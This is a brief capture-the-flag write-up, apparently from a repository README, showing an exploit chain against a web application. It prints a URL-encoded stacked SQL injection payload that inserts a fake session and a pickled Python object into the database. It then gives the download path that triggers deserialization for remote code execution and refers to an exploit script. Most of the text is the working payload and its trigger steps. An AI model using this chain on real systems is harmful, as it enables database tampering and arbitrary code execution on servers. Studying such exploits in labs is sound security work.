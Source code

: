 The 2 SQLI payloads + python deserialized object to RCE:
\;%0AINSERT%0AOR%0AIGNORE%0AINTO%0Aactivesessions%0A(sessionid,%0Ausername,%0Atimestamp)%0AVALUES%0A(\TESTCTF\,%0A\TESTCTF\,%0A\TESTCTF\);%0AINSERT%0AINTO%0Afiles%0A(filename,%0Adata,%0Asessionid)%0AVALUES%0A(\\{filename}\,%0A\\{pickled}\,%0A\TESTCTF\\);--

Then navigate to the path /download/{filename}/{sessionid} using the injected sessionid and filename.
This will trigger the deserialization of the object, resulting in a remote code execution

script available on exploit.py
